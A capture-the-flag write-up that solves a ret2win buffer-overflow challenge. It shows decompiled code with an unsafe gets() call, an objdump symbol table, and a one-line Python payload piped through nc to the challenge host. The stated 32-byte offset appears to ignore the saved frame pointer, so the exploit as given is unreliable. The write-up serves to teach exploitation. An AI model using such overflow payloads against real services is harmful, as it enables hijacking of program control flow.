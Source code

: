 # pwn/ret2generic-flag-reader
Author: pepsipu

i'll ace this board meeting with my new original challenge!
```nc mc.ax 31077```

# Solution
Looking at the title, we know that this is another buffer overflow challenge.

This time, we are trying to return to a address.

Remember the two things that we are going to look for are the offset and the memory address.

First, let's find the offset.

Open up ghidra and look at the main function.

```c
undefined8 main(void)

{
  char local_28 [32];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts(
      "alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable..."
      );
  puts(
      "how about this, we\'ll make a generic pwnable with an overflow and they\'ve got to ret to some flag reading function!"
      );
  puts("slap on some flavortext and there\'s no way rob will fire me now!");
  puts("this is genius!! what do you think?");
  gets(local_28);
  return 0;
}
```

We see that the offset is 32 characters.

Now we need to find the memory address. 

Remember that the memory address we are trying to find it the memory address of the return call.

So basically, we have to find the memory address of the function we want to return to.

Looking around in ghidra in the functions section, we see that there is a function called super_generic_flag_reading_function_please_ret_to_me.

Now in order to find the memory address of that function, we have to dump the program function first using objdump.

Running objdump -t ret2generic-flag-reader gives us this:

```
SYMBOL TABLE:
0000000000400318 l    d  .interp        0000000000000000              .interp
0000000000400338 l    d  .note.gnu.property     0000000000000000              .note.gnu.property
0000000000400358 l    d  .note.gnu.build-id     0000000000000000              .note.gnu.build-id
000000000040037c l    d  .note.ABI-tag  0000000000000000              .note.ABI-tag
00000000004003a0 l    d  .gnu.hash      0000000000000000              .gnu.hash
00000000004003d0 l    d  .dynsym        0000000000000000              .dynsym
0000000000400508 l    d  .dynstr        0000000000000000              .dynstr
0000000000400578 l    d  .gnu.version   0000000000000000              .gnu.version
0000000000400598 l    d  .gnu.version_r 0000000000000000              .gnu.version_r
00000000004005b8 l    d  .rela.dyn      0000000000000000              .rela.dyn
0000000000400630 l    d  .rela.plt      0000000000000000              .rela.plt
0000000000401000 l    d  .init  0000000000000000              .init
0000000000401020 l    d  .plt   0000000000000000              .plt
00000000004010a0 l    d  .plt.sec       0000000000000000              .plt.sec
0000000000401110 l    d  .text  0000000000000000              .text
00000000004014a8 l    d  .fini  0000000000000000              .fini
0000000000402000 l    d  .rodata        0000000000000000              .rodata
0000000000402184 l    d  .eh_frame_hdr  0000000000000000              .eh_frame_hdr
00000000004021d0 l    d  .eh_frame      0000000000000000              .eh_frame
0000000000403e10 l    d  .init_array    0000000000000000              .init_array
0000000000403e18 l    d  .fini_array    0000000000000000              .fini_array
0000000000403e20 l    d  .dynamic       0000000000000000              .dynamic
0000000000403ff0 l    d  .got   0000000000000000              .got
0000000000404000 l    d  .got.plt       0000000000000000              .got.plt
0000000000404050 l    d  .data  0000000000000000              .data
0000000000404060 l    d  .bss   0000000000000000              .bss
0000000000000000 l    d  .comment       0000000000000000              .comment
0000000000000000 l    df *ABS*  0000000000000000              crtstuff.c
0000000000401150 l     F .text  0000000000000000              deregister_tm_clones
0000000000401180 l     F .text  0000000000000000              register_tm_clones
00000000004011c0 l     F .text  0000000000000000              __do_global_dtors_aux
0000000000404088 l     O .bss   0000000000000001              completed.8060
0000000000403e18 l     O .fini_array    0000000000000000              __do_global_dtors_aux_fini_array_entry
00000000004011f0 l     F .text  0000000000000000              frame_dummy
0000000000403e10 l     O .init_array    0000000000000000              __frame_dummy_init_array_entry
0000000000000000 l    df *ABS*  0000000000000000              ret2generic-flag-reader.c
0000000000000000 l    df *ABS*  0000000000000000              crtstuff.c
00000000004022ec l     O .eh_frame      0000000000000000              __FRAME_END__
0000000000000000 l    df *ABS*  0000000000000000              
0000000000403e18 l       .init_array    0000000000000000              __init_array_end
0000000000403e20 l     O .dynamic       0000000000000000              _DYNAMIC
0000000000403e10 l       .init_array    0000000000000000              __init_array_start
0000000000402184 l       .eh_frame_hdr  0000000000000000              __GNU_EH_FRAME_HDR
0000000000404000 l     O .got.plt       0000000000000000              _GLOBAL_OFFSET_TABLE_
00000000004014a0 g     F .text  0000000000000005              __libc_csu_fini
0000000000404060 g     O .bss   0000000000000008              stdout@@GLIBC_2.2.5
0000000000404050  w      .data  0000000000000000              data_start
0000000000000000       F *UND*  0000000000000000              puts@@GLIBC_2.2.5
0000000000404070 g     O .bss   0000000000000008              stdin@@GLIBC_2.2.5
0000000000404060 g       .data  0000000000000000              _edata
0000000000000000       F *UND*  0000000000000000              fclose@@GLIBC_2.2.5
00000000004014a8 g     F .fini  0000000000000000              .hidden _fini
0000000000000000       F *UND*  0000000000000000              setbuf@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              __libc_start_main@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              fgets@@GLIBC_2.2.5
00000000004011f6 g     F .text  00000000000001af              super_generic_flag_reading_function_please_ret_to_me
0000000000404050 g       .data  0000000000000000              __data_start
0000000000000000  w      *UND*  0000000000000000              __gmon_start__
0000000000404058 g     O .data  0000000000000000              .hidden __dso_handle
0000000000402000 g     O .rodata        0000000000000004              _IO_stdin_used
0000000000000000       F *UND*  0000000000000000              gets@@GLIBC_2.2.5
0000000000401430 g     F .text  0000000000000065              __libc_csu_init
0000000000404090 g       .bss   0000000000000000              _end
0000000000401140 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401110 g     F .text  000000000000002f              _start
0000000000404060 g       .bss   0000000000000000              __bss_start
00000000004013a5 g     F .text  000000000000008b              main
0000000000000000       F *UND*  0000000000000000              fopen@@GLIBC_2.2.5
0000000000000000       F *UND*  0000000000000000              exit@@GLIBC_2.2.5
0000000000404060 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
0000000000404080 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```
We see that the memory address of that super_generic_flag_reading_function_please_ret_to_me function is 00000000004011f6.

So now we can make a python payload in order to get the flag.

Our payload will be python -c "print 'A' * 32 + '\xf6\x11\x40\x00\x00\x00\x00\x00'" | nc mc.ax 31077

Running that payload, gives us the flag!

# Flag
```flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}```

